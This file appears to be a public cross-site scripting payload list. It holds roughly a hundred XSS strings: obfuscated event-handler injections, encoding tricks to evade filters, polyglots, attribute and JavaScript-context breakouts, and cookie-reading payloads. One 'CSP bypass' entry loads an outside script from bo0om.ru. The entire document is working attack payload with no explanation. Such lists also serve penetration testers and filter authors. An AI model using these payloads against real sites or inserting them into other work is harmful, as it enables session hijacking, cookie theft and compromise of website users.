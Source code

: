 #############################################################
#  XSS-Payloads   https://github.com/RenwaX23/XSS-Payloads  #
#             https://twitter.com/RenwaX23                  #
#############################################################


<AuDiO/**/oNLoaDStaRt='(_=/**/confirm/**/(1))'/src><!--x

<mArquee onStart=[~[onmouseleave(([[(alert(1))]]))]] ]

<img src="/" =_=" title="onerror='/**/prompt(1)'">

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<a/onmousemove=alert(1)//>xss

<object allowscriptaccess=always><param name=code value=https://l0.cm/xss.swf>

<svg+onload=eval(location.hash.substr(1))>#alert(1)

<details/open/ontoggle=confirm('XSS')>

</script><svg><script>alert(1)/&apos;

<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;// 

<svg </onload ="1> (_=prompt,_(1)) "">

<svg 1=""onload=alert(1)>

<output name="jAvAsCriPt://&NewLine;\u0061ler&#116(1)" onclick="eval(name)">X</output>

<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;23&rpar;&gt;" />

<button onmousemove="javascript:alert(1)">xss

<BoDy%0AOnpaGeshoW=+window.prompt(1)

<a href=[0x0b]xss" onfocus=prompt(1) autofocus fragment="

<isindex type=image src=1 onerror=alert(1)>

<script>a=eval;b=alert;a(b(/ 1/.source));</script>'">

<!'/!"/!\'/\"/--!><Input/Type=Text AutoFocus */; OnFocus=(confirm)(1) //>

<style><img src="</style><img src=x "><object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

<embed src=/x//alert(1)><base href="javascript:\

\u003csvg/onload=alert`1`\u003e

\<svg/onload=alert`1`\>

<article xmlns ="urn:img src=x onerror=xss()//" >xss

i\{\<\/\s\t\y\le\>\<\i\m\g\20\o\ne\r\r\o\r\=\'a\le\r\t\(d\oc\u\me\nt\.c\o\o\kie\)\'\s\rc\=\'eeeeeee\'\20\>{

<img / src = \ 'dfdfd \' // onerror = \ 'alert (document.cookie) \ '>

<img/src=q onerror='new Function`al\ert\`OPENBUGBOUNTY\``'>

<Html Onmouseover=(alert)(1) //

<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>

<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>

&#x003c;img src=1 onerror=confirm(1)&#x003e;

%26%23x003c%3Bimg%20src%3D1%20onerror%3Dalert(1)%26%23x003e%3B%0A

x%22%3E%3Cimg%20src=%22x%22%3E%3C!--%2522%2527--%253E%253CSvg%2520O%256ELoad%253Dconfirm%2528/xss/%2529%253E

<embed src=/x//alert(1)><base href="javascript:\

<x+oncut=y=prompt,y`1`>xss

<svG x=">" onload=(co\u006efirm)``>

<script/xss~~~>;alert(1);</script/X~~~>

<VideO/**/OnerroR=~alert("1")+/SrC>

<video/poster/onerror=prompt(1)>

<sVG/xss/OnLoaD+="window['confirm']+(1)">

<img x/src=x /onerror="x-\u0063onfirm(1)">

<VidEo/oNLoaDStaRt=confirm(1)+/src>

<video/src=//w3schools.com/tags/movie.mp4%0Aautoplay/onplay=(confirm(1))>

<p/%0Aonmouseover%0A=%0Aconfirm(1)>xss

<span/onmouseover=confirm(1)>xss

<iframe/name="javascript:confirm(1);"onload="while(1){eval(name);}">

<svg/onload=window.onerror=alert;throw/XSS/;//

<object data='data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4=' /src>

<InpuT/**/onfocus=pr\u006fmpt(1)%0Aautofocus>xss

<img src="x:alert" onerror="eval(src%2b'(1)')">

<img/src=xss%0A/**/onerror=eval('al'%2b'ert(1)')>

<img/alt=1 onerror=eval(src) src=x:alert(alt) >

<isindex/**/alt=1+src=xss:window['alert']/**/(alt)+type=image+onerror=while(true){eval(src)}>

<input type="text" name="foo" value=""autofocus/onfocus=alert(1)//">

<math href="javascript:alert(1)">CLICKME

<var onmouseover="prompt(1)">xss</var>

<h1/onmouseover='alert(1)'>xss

<object data="javascript:alert(1)">

<--'<script>window.confirm(1)</script> --!>

<div onmouseover=prompt("1")>xss

<img src=x onerror=window.open('data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4=');>

<plaintext/onmousemove=prompt(1)>xss

<marquee/onstart=alert(1)>xss

<embed src=javascript:alert(1)>

<select autofocus onfocus=alert(1)>

<textarea autofocus onfocus=alert(1)>

<keygen autofocus onfocus=alert(1)>

<div/onmouseover='alert(1)'>xss

<svg/onload=document.location.href='https://google.com'>

<audio src=x onerror=confirm("1")>

<iframe src="data:text/html;base64,PFNDUklQVD5hbGVydCgnUkVOV0FYMjMnKTs8L1NDUklQVD4="/>

<img%09onerror=alert(1) src=a>

<i onclick=alert(1)>Click here</i>

<img src=<b onerror=alert('xss');>

<img src="x:? title=" onerror=alert(1)//">

<img src="x:gif" onerror="eval('al'%2b'ert(/xss/)')">

<img src="x:gif" onerror="window['al\u0065rt'] (/'xss'/)"></img> 

<a onmouseover%3D"alert(1)">xss

<script/%00%00v%00%00>alert(/xss/)</script>

<svg/onload=document.location.href='data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4='>

<script>$=1,alert($)</script>

<svg•onload=alert(1)>

<h1/onmouseover='alert(1)'>xss

<video onerror=alert(1337) </poster>

<input onfocus=alert(1337) </autofocus>


CSP BYPASS:

<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


POLYGLOT:

javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


HYPERLINK TAG INJECTION:

javascript:alert(1)

javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")

javascript://%250Aalert(document.cookie)

javascripT://https://google.com%0aalert(1);//https://google.com

/x:1/:///%01javascript:alert(document.cookie)/


INLINE HTML INJECTION WITHOUT TAG BREAK:

" onclick=alert(1)//">click

" autofocus onfocus=alert(1) "

" onfocus=prompt(1) autofocus fragment="

" onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


JAVASCRIPT INJECTION:

'?prompt`1`?'

"])},alert(1));(function xss() {//

""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y

"}]}';alert(1);{{'

11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1

\');confirm(1);//

x");$=alert, $(1);//

'|alert(1)|'

'*prompt(1)*'

"; ||confirm('XSS') || "

"-alert(1)-"

\'-alert(1)};{//

"'-alert(1)-'"

\u0027-confirm`1`-\u0027 

'}};alert(1);{{'

// XSS //
